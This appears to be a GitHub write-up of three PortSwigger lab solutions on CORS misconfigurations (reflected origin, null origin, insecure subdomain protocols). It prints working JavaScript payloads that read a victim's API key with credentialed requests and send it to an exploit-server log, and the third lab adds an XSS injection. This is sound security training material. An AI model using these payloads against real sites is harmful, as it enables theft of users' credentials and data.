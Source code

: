 **Lab #1: CORS vulnerability with basic origin reflection**

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use the browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header:

Origin: https://example.com
Observe that the origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL:

<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/1b3764fa-a537-41dd-80c2-834650d431da)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43df1957-304e-486b-bba7-ef4516270ccc)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/e496e357-52f7-4fc0-ad74-f97c4afb5bd9)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/5e25eaca-f1d8-4213-9d57-6e145bc808e6)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/210dff91-13cc-4514-829b-485f4881d65a)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/4e8df9e4-31ef-45a1-979b-d51813dc7b67)

**Lab #2: CORS vulnerability with trusted null origin** 

This website has an insecure CORS configuration in that it trusts the "null" origin.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in to your account. Click "My account".
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: null.
Observe that the "null" origin is reflected in the Access-Control-Allow-Origin header.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with the URL for your unique lab URL and YOUR-EXPLOIT-SERVER-ID with the exploit server ID:

<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
Notice the use of an iframe sandbox as this generates a null origin request.

Click "View exploit". Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click "Deliver exploit to victim".
Click "Access log", retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d6241fd9-c4e8-4d1b-b8a5-28b73702a7a2)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/95d2de0f-a086-4595-8f08-8ead4842c883)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/096c7bf9-07b0-4e3e-95e9-05a2799b7f9d)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/b691fbde-0899-4b0d-b176-a4f5cd1acab3)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/f4e50ab0-ba78-4a9a-b8df-30a4de4001f1)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d89a3c07-d749-4392-a8d7-55695b3e5096)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/8ca02f8e-4903-45ee-81ec-da7c9e422018)

**Lab #3: CORS vulnerability with trusted insecure protocols**

This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter

Check intercept is off, then use Burp's browser to log in and access your account page.
Review the history and observe that your key is retrieved via an AJAX request to /accountDetails, and the response contains the Access-Control-Allow-Credentials header suggesting that it may support CORS.
Send the request to Burp Repeater, and resubmit it with the added header Origin: http://subdomain.lab-id where lab-id is the lab domain name.
Observe that the origin is reflected in the Access-Control-Allow-Origin header, confirming that the CORS configuration allows access from arbitrary subdomains, both HTTPS and HTTP.
Open a product page, click Check stock and observe that it is loaded using a HTTP URL on a subdomain.
Observe that the productID parameter is vulnerable to XSS.
In the browser, go to the exploit server and enter the following HTML, replacing YOUR-LAB-ID with your unique lab URL and YOUR-EXPLOIT-SERVER-ID with your exploit server ID:

<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
Click View exploit. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
Go back to the exploit server and click Deliver exploit to victim.
Click Access log, retrieve and submit the victim's API key to complete the lab.

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/43927350-f0f3-417f-926b-18eb2cd38a96)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/2e8b7bd1-7522-433b-9bad-1b25c0d83189)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/0a64eb3a-a3f9-4895-8669-0aa353bafd74)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/75581357-e1bf-4957-8eeb-68defe7f7610)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/992e6329-114b-4585-85ff-45e58a37b13c)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/d5a39682-c044-4e18-86c0-fc129b40531e)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/7c415450-395c-4b0e-9dda-657c688330f7)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/3c530767-fdeb-43fd-a2a5-b208da35fb99)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/eccb204d-d50e-448d-869c-63919b9692a8)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/9001a664-2bc2-45e8-8c85-113224275063)

![image](https://github.com/SURYASNAIR1/PortSwigger/assets/123303806/69dec431-ac66-4c95-aa5d-96e016fb50b5)
